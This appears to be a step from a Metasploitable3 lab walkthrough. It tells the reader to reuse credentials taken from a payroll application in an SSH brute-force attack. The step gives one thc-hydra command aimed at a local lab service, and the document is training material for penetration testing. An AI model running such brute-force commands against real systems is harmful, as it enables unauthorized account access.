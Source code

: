 # SSH Bruteforce with thc-hydra

1. After extracting credentials from the Payroll Application, use the credentials to run a bruteforce attack.

```
hydra -L user.txt -P pass.txt ssh://127.0.0.1:2222
```
![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/ssh-bruteforce/SSH_Bruteforce.png "Result 1")
